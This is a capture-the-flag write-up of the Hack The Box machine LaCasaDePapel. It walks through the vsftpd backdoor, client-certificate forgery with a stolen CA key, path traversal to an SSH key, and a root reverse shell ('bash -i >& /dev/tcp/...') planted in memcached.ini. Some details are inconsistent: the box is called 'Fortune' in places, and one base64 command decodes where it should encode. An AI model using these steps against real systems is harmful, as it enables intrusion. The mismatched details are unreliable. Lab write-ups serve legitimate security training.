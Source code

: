 # LeCasaDePapel

This is the write-up for the box Fortune that got retired at the 27th July 2019.
My IP address was 10.10.14.248 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.131    lecasadepapel.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/fortune.nmap 10.10.10.131
```

```markdown
We get following results:
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## Checking FTP (Port 21)

The service that runs on port 21 is vsftpd 2.3.4, so we check for knwon vulnerabilites for this version of vsftpd:

```markdown
searchsploit vsftpd
```

And we find that there is a Metasploit module for that exact version.
After we try this the exploit it does not work, so we change the _Verbose_ option to _True_ and running it again will say the following:
> The service on port 6200 does not appear to be a shell

There seems to be something on port 6200 so let's check that:
```markdown
nc 10.10.10.131 6200
```
The information this gives us is:
> Psy Shell v0.9.9 (PHP 7.2.10 - cli)

### Checking the Psy Shell

This shell takes PHP commands, so we check files on the box.

```markdown
scandir(".")
scandir("/home")
```

Now we have potential users on the box. They are called nairobi, dali, berlin, oslo and professor.

```markdown
file_get_contents:("/home/nairobi/ca.key")
```

- User dali: We have permissio and can change .ssh/authorized_keys
- User nairobi: We get contents of ca.key
- User berlin: Has user.txt

We take the contents of _ca.key_ from nairobi to the local machine.

## Checking HTTP (Port 80)

This web page has a QR-code with Google Authenticator installed, so there is propably nothing here.

## Checking HTTPS (Port 443)

This web page tells us:
> Sorry, but you need to provide a client certificate to continue.

As we have the CA private key, we now need the ceritificate chain and then we sign our own certificates.
The certificate chain can be exported from Firefox and saved on the local machine as _lecasadepapel.crt_.

Verify if ca.key is the private key to this certficate:

```markdown
openssl pkey -in ca.key -pubout
openssl x509 -in lacasadepapelhtb.crt -pubkey -noout
```

The output of both is the same so we are good to go.

Now we can generate a client key, a certificate signing request and then sign it:

```markdown
openssl genrsa -out client.key 4096
openssl req -new -key client.key -out client.csr
openssl x509 -req -in client.csr -CA lacasadepapelhtb.crt -CAkey ca.key -set_serial 9002 -extensions client -days 9002 -outform PEM -out client.cer
```

After this we need to format it to PKCS12 format so Firefox can use it:

```markdown
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```

This _client.p12_ can be imported into Firefox in the Certificate Store and the _lecasadepapel.crt_ into Authorities.

Now we get something on the web page. We can choose between SEASON-1 and SEASON-2. Both of these links show us a bunch of.avi files.
The filenames in the path of one of this .avi files look like they are Base64 decoded:

```markdown
hxxps://10.10.10.131/file/U0VBU09OLTEvMDEuYXZp
```

If we decode this string it says **SEASON-1/01.avi** so maybe we can browse the file system if we Base64 decode ourr own strings.
Let's decode the string **../.ssh/id_rsa** and paste it into the URL:

```markdown
echo -n ../.ssh/id_rsa | base64 -d
```

### SSH into the server

We paste the contents of the _id_rsa_ into a file on our server:

```markdown
vim ssh.pem
chmod 600 ssh.pem
```

As we enumerated the usernames we just try every user until it works on one of them.

```markdown
ssh -i ssh.pem professor@10.10.10.131
```
It works on professor and we have a SSH session on the box.

## Privilege Escalation

Getting PsPy or another PrivEsc checking tool on the box and checking processes.
We see that the process **memcached** gets called every minute or so. The professor has a _memcached.ini_ in this home directory, so we probably need to work with that.

We don't have permission to write to that file but we have the permission create files.

```markdown
mv memcached.ini ownmemcached.ini
cat ownmemcached.ini > memcached.ini
```

Now we own the _memcached.ini_ file and let it execute whatever we want and we want a reverse shell:

```markdown
command = bash -c "bash -i >& /dev/tcp/10.10.14.248/9001 0>&1"
```

Open a reverse connection on port 9001 and wait until memcached executes again. After that we get a shell as root!
